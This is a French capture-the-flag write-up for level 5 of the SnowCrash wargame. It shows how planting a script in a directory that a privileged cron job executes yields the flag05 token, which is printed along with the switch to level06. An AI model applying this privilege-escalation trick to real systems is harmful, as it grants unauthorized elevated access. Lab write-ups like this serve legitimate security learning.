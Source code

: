 # Level05

</br></br>

## vérifier e-mail

```zsh
level05@SnowCrash:~$ ls /var/mail
level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Il dit d'exécuter le script /usr/sbin/openarenaserver avec l'autorisation flag05 toutes les 2 minutes.

</br></br>

## /usr/sbin/openarenaserver

```sh
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Ce script exécute de manière récursive tous les fichiers du répertoire /opt/openarenaserver/ et définit un délai d'attente du processeur de 5 secondes pour chaque exécution de fichier. Ensuite, les fichiers dont l'exécution est terminée sont supprimés.

</br></br>

## Créer un exécutable getflag dans /opt/openarenaserver

```sh
level05@SnowCrash:~$ mkdir /tmp/level05
level05@SnowCrash:~$ vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```

```zsh
level05@SnowCrash:/tmp/level05$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/tmp/level05$ su level06
Password:
level06@SnowCrash:~$
```
